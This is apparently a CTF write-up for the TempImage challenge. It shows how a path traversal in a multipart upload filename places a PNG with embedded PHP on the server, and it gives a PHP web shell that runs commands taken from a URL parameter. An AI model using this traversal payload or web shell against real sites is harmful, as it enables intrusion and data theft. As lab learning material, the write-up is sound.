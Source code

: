# TempImage

## 1. Flag 2

Tried uploading files 

download.png -->> 820c946b78eb0d3b0dfe2067189de065_download.php.png

download2.png -->> 83ba84583557e3b03ad3bdc749370e73_download2.png

Files were renamed to <<md5hash>>_<<realfilename>>.<ext>

Tried to download 159df48875627e2f7f66dae584c5e3a5_flag.txt and some other didn't work

Watched a H101 file inclusion video, got info about file multipart/form-data esp boundary param.

Connected Burp Suite and tried changing the filename param to `/etc/passwd` got following error.

```php+HTML
Warning: move_uploaded_file(files/c5068b7c2b1707f8939b283a2758a691_/etc/passwd): failed to open stream: No such file or directory in /app/doUpload.php on line 7

Warning: move_uploaded_file(): Unable to move '/tmp/phpSayLpg' to 'files/c5068b7c2b1707f8939b283a2758a691_/etc/passwd' in /app/doUpload.php on line 7
ERROR: Upload failed
```

Got all the info required. The file content when uploaded is present at `/tmp/phpSayLpg`  and is being moved to files/<md5sum of filename>_file_name.<ext>

Great!

Modified  `download.png` (downloded from google) with embedded php code included just `<?php echo "hello world" ?> ` using exiftool to check (BTW using exiftool was causing problem 'unexpected end of file' error, attached payload manually at the end of file)

![Screen Shot 2020-05-17 at 12.55.13 AM](/Users/rajsharm/Desktop/Screen Shot 2020-05-17 at 12.55.13 AM.jpg)

Uploaded the png, intercepting in Burp and changing the file name to `/../../download.php` in the filename param as well as in each boundary.

This way file gets moved to the directory where index.php is present because the call to move_uploaded_file() will be called with `files/0742d73fcdc2f4f928d8995aaac3c024_/../../download.php`

Now we have RCE!

Embedded `<?php echo file_get_contents("index.php"); ?>` in png, server returned the contents of index.php, viewed the source code **got the FLAG**

## 2. Flag 1

Now that we have RCE, embedded below

```php
$output = shell_exec($_GET['cmd']);
echo "<pre>$output</pre>";
```

in the png and uploaded.

Now we have shell access.

Did cat on all the files present. Using `http://35.227.24.107/60923ee32a/download.php?cmd=cat doUpload.php`

**Found the Flag in doUpload.php**

